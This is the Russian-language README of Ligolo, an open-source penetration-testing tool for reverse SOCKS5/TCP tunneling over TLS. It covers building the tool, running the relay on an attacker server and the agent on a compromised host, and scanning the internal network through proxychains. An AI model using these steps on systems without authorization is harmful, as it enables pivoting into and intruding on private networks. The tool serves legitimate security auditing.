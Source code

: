 # Ligolo : Простое обратное туннелирование для пентестеров, от пентестеров

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Содержание

- [Вступление](#Вступление)
- [Пример использования](#Пример-использования)
- [Быстрая демонстрация](#Быстрая-демонстрация)
- [Производительность](#Производительность)
- [Использование](#Использование)
  - [Настройка / Компиляция](#Настройка--Компиляция)
  - [Как использовать?](#Как-использовать)
  - [TL;DR](#tldr)
  - [Опции](#Опции)
- [Особенности](#Особенности)
- [To Do](#to-do)
- [Лицензирование](#Лицензирование)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Вступление

**Ligolo** это * простой * и * легкий * инструмент для установки * SOCKS5 * или * TCP * туннелей через обратное соединение в полной безопасности (сертификат TLS с эллиптической кривой).
Это сопоставимо с * Meterpreter* с * Autoroute + Socks4a*, но более стабильно и быстро.

## Пример использования

Вы скомпрометировали сервер Windows / Linux / Mac во время вашего внешнего аудита. Этот сервер расположен внутри локальной сети, и
вы хотите установить соединения с другими компьютерами в этой сети.

**Ligolo** может настроить туннель для доступа к ресурсам внутреннего сервера.

## Быстрая демонстрация

Ретрансляция RDP-соединения с использованием прокси-цепочек (WAN).

![RDP](img/rdesktop_example.gif)

## Производительность

Вот скриншот теста скорости между двумя хостами со скоростью 100 Мбит/с (ligolo / localrelay). Производительность может варьироваться в зависимости от конфигурации системы и сети.

![Проверка скорости](img/speedtest.png)

## Использование

### Настройка / Компиляция

Убедитесь, что * Go* установлен и работает.

1. Получите Ligolo и зависимости

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Сгенерируйте самоподписанный TLS сертификат (будет помещен в *certs* папку)

```
make certs TLS_HOST=example.com
```

NOTE: Вы также можете использовать свои собственные сертификаты, используя `TLS_CERT` переменную окружения при вызове *build*. Пример: `make build-all TLS_CERT=certs/mycert.pem`.

3. Сборка

* 3.1. Для всех архитектур

```
make build-all
```

* 3.2. (или) Для текущей архитектуры

```
make build
```

### Как использовать?

*Ligolo* состоит из двух модулей:

- localrelay
- ligolo

*Localrelay* предназначен для запуска на сервере управления (сервере злоумышленника).

*Ligolo* это программа для запуска на целевом компьютере.

Для *localrelay*, вы можете оставить параметры по умолчанию. Он будет прослушивать каждый интерфейс на порту 5555 и ждать подключений от *ligolo* (`-relayserver` параметр).

Для *ligolo*, вы должны указать IP-адрес сервера ретрансляции (или вашего сервера атаки), используя `-relayserver ip:port` параметр.

Вы можете использовать `-h` для помощи.

Как только будет установлено соединение между *Ligolo* и *LocalRelay*, прокси-сервер *SOCKS5* будет поднят на TCP-порту `1080` на relay сервере (вы можете изменить TCP-адрес/порт, используя опцию *-localserver*).

После этого все, что вам нужно сделать, это использовать ваш любимый инструмент (например, Proxychains) и исследовать локальную сеть клиента.

### TL;DR

На вашем атакующем сервере.

```
./bin/localrelay_linux_amd64
```

На скомпроментированом хосте.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Как только соединение установлено, установите следующие параметры в конфигурационном файле ProxyChains (на атакующем сервере):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Опции

*Localrelay* опции:

```
Использование localrelay:
  -certfile string
    	Сертификат сервера TLS (по умолчанию "certs/server.crt")
  -keyfile string
    	Ключ сервера TLS (по умолчанию "certs/server.key")
  -localserver string
    	Адрес локального сервера (ваш параметр proxychains) (default "127.0.0.1:1080")
  -relayserver string
    	Адрес прослушивания сервера ретрансляции (обратный адрес для подключения) (default "0.0.0.0:5555")
```

*Ligolo* опции:

```
Использование ligolo:
  -autorestart
    	Попытка повторного подключения в случае ошибки
  -relayserver string
    	Сервер ретрансляции (обратный адрес для подключения) (default "127.0.0.1:5555")
  -skipverify
    	Пропустить проверку сертификата TLS
  -targetserver string
    	Целевой сервер (RDP-клиент, SSH-сервер и т.д.) - если не указано, Ligolo запускает прокси-сервер socks5.
```

## Особенности

- Туннель TLS 1.3 с поддержкой TLS
- Мультиплатформенность (Windows / Linux / Mac / ...)
- Мультиплексирование (1 TCP-соединение для всех потоков)
- Прокси-сервер SOCKS5 или простая ретрансляция

## To Do

- Улучшенная обработка тайм-аута
- Поддержка SOCKS5 UDP
- Implement mTLS

## Лицензирование

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
